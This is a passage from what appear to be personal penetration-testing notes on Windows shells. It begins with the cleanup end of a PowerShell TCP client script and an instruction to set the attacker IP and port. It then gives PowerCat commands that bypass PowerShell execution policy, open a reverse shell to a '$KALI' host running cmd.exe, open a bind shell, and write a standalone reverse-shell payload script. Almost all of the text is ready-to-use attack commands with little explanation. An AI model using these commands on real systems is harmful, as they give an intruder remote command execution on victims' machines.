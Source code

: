 ```powershell - windows
	if ($stream -ne $null) {
		$stream.Close(); $stream.Dispose();
		Clear-Variable -Name "stream";
	}
	if ($client -ne $null) {
		$client.Close(); $client.Dispose();
		Clear-Variable -Name "client";
	}
	if ($buffer -ne $null) {
		$buffer.Clear();
		Clear-Variable -Name "buffer";
	}
	if ($result -ne $null) {
		Clear-Variable -Name "result";
	}
	if ($data -ne $null) {
		Clear-Variable -Name "data";
	}
	[System.GC]::Collect();
}
```

Change the $client IP an port details.

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[4._File Transfers#Certutil]]

#### PowerCat
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\powercat.ps1
```

#### PowerCat Reverse Shell
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe
```

#### PowerCat Bind Shell
```powershellz - windows
powercat -l -p 443 -e cmd.exe
```

#### PowerCat Stand-Alone payloads
```powershell - windows
powercat -c $KALI -p 443 -e cmd.exe -g > reverseshell.ps1
```

```powershell - windows
./reverseshell.ps1
```
